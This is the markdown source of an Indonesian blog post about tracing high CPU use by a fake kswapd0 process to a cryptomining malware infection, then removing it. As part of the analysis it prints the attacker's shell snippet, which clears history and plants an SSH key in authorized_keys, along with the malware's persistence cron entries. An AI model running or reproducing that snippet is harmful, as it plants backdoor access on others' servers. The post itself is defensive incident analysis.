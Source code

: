 ```yaml
---
title: How to Deal With High CPU Usage kswapd0 on Linux
lang: id-ID
description: High CPU Usage pada aplikasi kswapd0 bisa berarti SWAP atau bahkan Mining.
image: /images/covers/how-to-deal-with-kswapd0-on-linux.jpg
published: 9/30/2020, 10:55:23 AM
category: devops
author: Ryan Aunur Rassyid
tags: 
  - kswapd0
  - ubuntu
  - linux
  - debian
  - cpu
  - production
  - server
meta:
  - name: keywords
    content: kswapd0,ubuntu,linux,debian,cpu,production,server
feed:
  enable: true
---
```

# How to Deal With High CPU Usage kswapd0 on Linux

<Author name="Ryan Aunur Rassyid" />
<FeaturedImage 
  src="/images/covers/how-to-deal-with-kswapd0-on-linux.jpg"
  author="Jase Bloor"
  source="unsplash.com"
  sourceLink="https://unsplash.com/photos/By1VMCg3K4I" />

## Introduction
Beberapa waktu yang lalu penulis sempat menghandle Project yang menggunakan server fisik (bukan VPS). Server tersebut menggunakan Ubuntu 16.04 sebagai *Operating System*-nya. Namun OS yang dipakai tidak sama dengan OS yang penulis pakai setiap kali deploy VPS, padahal versi Ubuntu yang dipakai sama persis yaitu Ubuntu 16.04 tapi serasa seperti Debian. Banyak package package yang hilang atau tidak ada padahal package tersebut seharusnya ada di OS tersebut bahkan fresh install sekalipun. 

Aplikasi berjalan baik dan tanpa kendala, hanya saja berjalan agak pelan untuk ukuran server dengan prosessor 8 core tersebut. Seharusnya aplikasi berjalan lebih baik bukan?. Oke mulai mulai dari sini mulai curiga. Apakah server menjalankan aplikasi lain yang menyebabkan aplikasi lain tidak memiliki cukup resource yang dipakai atau aplikasi yang kita kerjakan memang lamban. Akhirnya investigasi dimulai.

## Table of Contents
[[toc]]

## Apa itu kswapd0?
Singkat cerita ditemukan akar masalahnya, yaitu aplikasi **kswapd0** yang berjalan menggunakan resource CPU 100% terus menerus. Ini sangat tidak wajar untuk aplikasi yang mengatur dan me-*manage* SWAP atau virtual memory pada Linux. Karena ini hal baru yang belum pernah penulis jumpai selama memakai SWAP di Linux, jadi penulis mencoba mengumpulkan informasi dari semua forum-forum apa itu *kswapd0* dan mengapa memakan resource CPU yang banyak.

Ada forum yang berpendapat bahwa kejadian ini adalah bug dari linux yang harusnya sudah di-fix di versi yang baru sedangkan ada beberapa orang berpendapat bahwa ini disebabkan oleh server yang menggunakan hardisk dari pada SSD sebagai SWAP sehingga CPU dan Hardisk dipaksa bekerja dengan semaksimal mungkin. Team memutuskan untuk upgrade versi package yang kadarluasa dengan menjalankan `apt get upgrade`. Dan bener saja banyak package yang diupgrade pada waktu itu. Namun ini tidak menuntaskan masalah, **kswapd0** tetap berjalan.

![kswapd0 terlihat berjalan di aplikasi monitoring htop](https://cdn.statically.io/img/telegra.ph/f=auto,q=100/file/2b542fc07f6a6a176c072.jpg)
*Aplikasi kswapd0 terlihat berjalan di aplikasi monitoring htop*

### What now?
Akhirnya kami putuskan untuk menghapus SWAP dari pada penggunaan CPU terus dipakai tanpa ampun. Setelah dihapus apakah masalah ini selesai? sayangnya tidak. Aplikasi tersebut masih berjalan bahkan tanpa adanya SWAP. Lalu apa sebenernya eksistensi dari aplikasi ini?. Akhirnya penulis putuskan untuk investigasi mendalam dan mencoba mengumpulkan informasi lagi di forum. Kali ini penulis mendapatkan secercah cahaya apa maksud dari semua ini. Setelah membaca log Cron Job yang mencurigakan akhirnya didapati pertanyaan yang related dengan masalah ini.

:::: preview https://askubuntu.com/questions/1161003/strange-cron-job-takes-up-100-of-cpu-ubuntu-18-lts-server

::: preview-content Strange Cron Job takes up 100% of CPU Ubuntu 18 LTS Server - Ask Ubuntu
I keep getting weir cron jobs showing up and I have no clue what they do. I typically issue kill -9  to stop them. They take up 100% of my CPU and can run for days until I check. Does anyone know w...

askubuntu.com
:::
::: preview-thumbnail https://cdn.sstatic.net/Sites/askubuntu/Img/apple-touch-icon@2.png?v=c492c9229955
:::
::::

Usut punya usut ternyata aplikasi tersebut adalah aplikasi **Crypto Mining**. Siapa sangka aplikasi ini bisa masuk pada sistem operasi linux yang baru di install. Aplikasi Crypto Mining sendiri adalah aplikasi yang menjalankan proses mining (memecahkan algoritma rumit) yang memerlukan sebuah resource khususnya CPU atau GPU. Keuntungan yang didapat dari mining adalah Cryptocurrency atau mata uang digital. Karena aplikasi ini berjalan tanpa izin dan dijalankan pada komputer atau server orang lain maka aplikasi ini termasuk tindakan yang merugikan orang lain. Aplikasi ini berjalan tanpa henti dan menggunakan semua resource CPU yang ada hingga 100% yang bisa memperpendek umur prosessor karena dipaksa melakukkan pekerjaan keras dalam waktu lama dan terus menerus.

### Menghapus aplikasi
Tidak ada faedahnya membuat aplikasi ini tetap berada di server. Alih alih membiarkan aplikasi tetap berjalan saya memilih untuk menghapus aplikasi ini. Sebelum itu saya lebih penasaran bagaimana aplikasi ini bisa masuk. Asumsi awal adalah aplikasi ini masuk dengan cara SCP atau transfer remote file melalui SSH. Kok bisa? bisa, karena di SSH folder `$HOME/.ssh/` ada file `authorized_keys` yang artinya orang bisa mengakses server kapan saja tanpa password karena Linux mempercayai sepenuhnya pelaku. Dan ini bisa terjadi karena OS yang di-install bukan dari OS resmi dari Ubuntu atau Debian dengan kata lain injected. File instalasi OS bisa saja di susupi script untuk membuat `authorized_keys` seperti berikut.

```bash
set +o history
export PATH=/home/user/.bin:$PATH
cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr">>.ssh/authorized_keys && chmod 700 .ssh && cd .ssh && chmod 600 authorized_keys && cd ~
```

Setelah pelaku sudah memiliki akses ke server kita melalui ssh, selanjutnya pelaku tinggal mengirim file mining tersebut ke server kita dan menjalankan nya dengan cron job. Kenapa cron job? karena disini aplikasi akan mendeteksi apakah aplikasi mining nya berjalan atau tidak. Apabila aplikasi dihentikan paksa dengan `kill -9 PID` misalnya, maka aplikasi akan kembali berjalan setelah beberapa menit. Dan jika file aplikasi di hapus maka secara otomatis aplikasi akan di sync untuk mendapatkan file crypto mining dan menjalankannya kembali. Terdengar menarik bukan.

```bash
1 1 */2 * * /home/user/.configrc/a/upd>/dev/null 2>&1
@reboot /home/user/.configrc/a/upd>/dev/null 2>&1
5 8 * * 0 /home/user/.configrc/b/sync>/dev/null 2>&1
@reboot /home/user/.configrc/b/sync>/dev/null 2>&1  
0 0 */3 * * /tmp/.X25-unix/.rsync/c/aptitude>/dev/null 2>&1
```

Dan ini adalah struktur folder dari folder aplikasi tersebut disimpan `$HOME/.configrc`. Nama folder yang cukup meyakinkan untuk tidak di cek, karena kita akan berfikir bahwa folder ini mungkin bagian dari folder `.config` yang hanya berisi config dari aplikasi-aplikasi di linux.

```
.
├── a
│   ├── a
│   ├── bash.pid
│   ├── dir.dir
│   ├── init0
│   ├── kswapd0
│   ├── run
│   ├── stop
│   └── upd
├── b
│   ├── a
│   ├── dir.dir
│   ├── run
│   ├── stop
│   └── sync
├── cron.d
└── dir2.dir
```

Setelah aplikasi di berhentikan dan dihapus dari server, penggunaan resource CPU menjadi normal kembali. Untuk meyakinkan bahwa program tersebut sudah tidak aktif kembali dan semua file dan service sudah dihapus dan berhenti, kami menunggu untuk beberapa saat. Yes, aplikasi tidak berjalan kembali dan di monitoring system juga tidak nampak keanehan kembali.

### Virus Total
Kita pastikan kembali bahwa ini adalah aplikasi Crypto Mining dengan cara upload file **kswapd0** tersebut ke website [virustotal](https://www.virustotal.com/gui/file/fd9007df08c1bd2cf47fb97443c4d7360e204f4d8fe48c5d603373b2b2975708/detection). Hasilnya dipastikan bahwa ini bukan file **kswapd0** yang asli atau bawaan Linux melainkan aplikasi Crypto Mining.

![Hasil scan pada website VirusTotal.com](https://cdn.statically.io/img/telegra.ph/f=auto,q=100/file/9c9b44a1073398b6c30a5.png)
*Hasil scan pada website [VirusTotal.com](https://www.virustotal.com/gui/file/fd9007df08c1bd2cf47fb97443c4d7360e204f4d8fe48c5d603373b2b2975708/detection)*

## Kesimpulan
Sebuah aplikasi yang menggunakan resource berlebih apalagi CPU perlu kita curigai dan usut sampai tuntas apa yang menyebabkan ia menggunakan CPU dengan tidak normal seperti itu. Dalam kasus ini aplikasi bernama **kswapd0** ini menjelma menjadi sebuah aplikasi yang cukup *make sense* untuk menggunakan resource besar tapi *behavior* dari aplikasi ini sendiri tidak seperti pada umunya. 

Dari sini kita bisa mengambil pelajaran bahwa jangan langsung percaya dengan apa yang kita lihat. Sebelum ada bukti yang kuat kita tidak bisa mengatakan bahwa aplikasi ini baik baik saya dan berjalan sebagaimana mestinya. Bisa jadi aplikasi tersebut sedang menyamar menjadi aplikasi lain.

<Disqus />

